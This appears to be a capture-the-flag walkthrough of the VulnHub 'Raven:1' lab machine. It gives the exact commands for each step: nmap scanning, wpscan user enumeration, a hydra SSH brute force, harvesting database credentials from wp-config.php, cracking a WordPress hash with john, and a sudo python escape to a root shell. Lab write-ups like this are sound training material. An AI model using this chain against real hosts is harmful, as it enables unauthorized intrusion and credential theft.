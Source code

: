 

# Raven:1 Walkthrough

**VulnHub Link:** [Raven:1](https://www.vulnhub.com/entry/raven-1,256/)
**Difficulty:** Easy
**Release Date:** 14 Aug 2018


## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.141


## 2.Web Enumeration

from /service.html ---> flag1 found

flag1{b9bbcb33e11b80be759c4e844862482d}


sudo echo "192.168.100.141	raven.local" > /etc/hosts

wpscan --url 'http://raven.local/wordpress' -e ap,u

michael and steven users found..!


## 3.Brute Force
hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.100.141 -I 

michael : michael found

ssh connection 

from /var/www ---> flag2 found

flag2{fc3fd58dcdad9ab23faca6e9a36e581c}


we obtain root password on mysql service from /var/www/html/wp-config.php ---> R@v3nSecurity

mysql> show databases;

mysql> use wordpress;

mysql> show tables;

mysql> select *from wp_posts; flag3 and flag4 found

flag3{afc01ab56b50591e7dccf93122770cd2}

flag4{715dea6c055b9fe3337544932f2941ce}


## 4.Cracking

and we obtain steven'password hash from wp_users 

echo '$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/' > hash1.txt


## 5.Privilege Escalation

zcat /usr/share/wordlists/rockyou.txt | john hash1.txt --pipe

steven : pink84 found

sudo -l ---> ALL (NOPASSWRD) : /usr/bin/python

sudo python -c 'import os; os.system("/bin/sh")' 

AND BINGO!!!! Root shell opened...!
